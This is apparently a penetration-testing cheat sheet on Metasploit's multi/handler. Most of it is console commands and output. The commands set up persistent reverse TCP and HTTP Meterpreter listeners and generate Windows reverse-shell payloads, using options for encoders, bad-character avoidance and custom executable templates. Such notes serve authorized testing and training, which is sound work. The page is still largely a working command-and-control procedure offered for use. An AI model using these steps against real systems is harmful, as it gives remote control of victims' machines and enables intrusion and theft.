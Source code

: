 # 02 - Shell Handler

Search Tag(s): #metasploit-framework #command-and-control

## 2.1 - Multi Handler

### 2.1.1 - Setting up a TCP listener

```
$ sudo msfconsole -q

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf exploit(multi/handler) > set lhost 10.0.2.6
lhost => 10.0.2.6
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.0.2.6:4444
```

### 2.1.2 - Setting up a HTTP listener

```
$ sudo msfconsole -q

msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/meterpreter/reverse_http

msf exploit(multi/handler) > set lhost 10.0.2.6
lhost => 10.0.2.6
msf exploit(multi/handler) > set lport 80
lport => 80
```

Ensure there's no timeout limit for the session's communication.

```
msf exploit(multi/handler) > set SessionCommunicationTimeout 0
SessionCommunicationTimeout => 0
```

Setting this option that even if the session has been terminated the shell launcher will stay active. This saves time from setting it up again.

```
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
```

Launch the shell handler to listening incoming sessions.

```
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on 10.0.2.6:80
```

### 2.1.3 - Job Handlers

List available shell handlers.

```
msf > jobs
```

Rename job handler.

```
msf > rename_job
```

### 2.1.4 - Terminate Shell Handler

Terminate a specific job handler.

```
msf > kill <job_ID>
```

Terminate all job handlers.

```
msf > jobs -K
```

## 2.2 - Payload

### 2.2.1 - Help Menu

```
Payload Commands
================

    Command       Description
    -------       -----------
    check         Check to see if a target is vulnerable
    exploit       Creates a handler with the specified payload
    generate      Generates a payload
    reload        Reload the current module from disk
    to_handler    Creates a handler with the specified payload

msf payload(windows/x64/meterpreter/reverse_tcp) > generate -h
Usage: generate [options]

Generates a payload. Datastore options may be supplied after normal options.

Example: generate -f python LHOST=127.0.0.1

OPTIONS:

    -b   The list of characters to avoid example: '\x00\xff'
    -E   Force encoding
    -e   The encoder to use
    -f   Output format: base32,base64,bash,c,csharp,dw,dword,go,golang,hex,java,js_be,js_le,nim,nimlang,num,perl,pl,powershell,ps1,py,python,raw,rb,ruby,rust,rustlang,sh,vbapplication,vbscript,asp,aspx,aspx-exe,axis2,dll,ducky-script-psh,elf,elf-so,exe,exe-only,exe-service,exe-small,hta-psh,jar,jsp,loop-vbs,macho,msi,msi-nouac,osx-app,psh,psh-cmd,psh-net,psh-reflection,python-reflection,vba,vba-exe,vba-psh,vbs,war
    -h   Show this message
    -i   The number of times to encode the payload
    -k   Preserve the template behavior and inject the payload as a new thread
    -n   Prepend a nopsled of [length] size on to the payload
    -o   The output file name (otherwise stdout)
    -O   Deprecated: alias for the '-o' option
    -p   The platform of the payload
    -P   Total desired payload size, auto-produce appropriate NOP sled length
    -S   The new section name to use when generating (large) Windows binaries
    -v   Verbose output (display stage in addition to stager)
    -x   Specify a custom executable file to use as a template
```

### 2.2.2 - Usage

```
msf > use payload/windows/x64/meterpreter/reverse_tcp

msf payload(windows/x64/meterpreter/reverse_tcp) > options

Module options (payload/windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(windows/x64/meterpreter/reverse_tcp) > set lhost <IP>

msf payload(windows/x64/meterpreter/reverse_tcp) > set lport <PORT>

msf payload(windows/x64/meterpreter/reverse_tcp) > set exitfunc <seh | thread | process | none>

msf payload(windows/x64/meterpreter/reverse_tcp) > generate -p <platform> -f <format> [-o shell.extension]

msf payload(windows/x64/meterpreter/reverse_tcp) > <exploit | to_handler>
```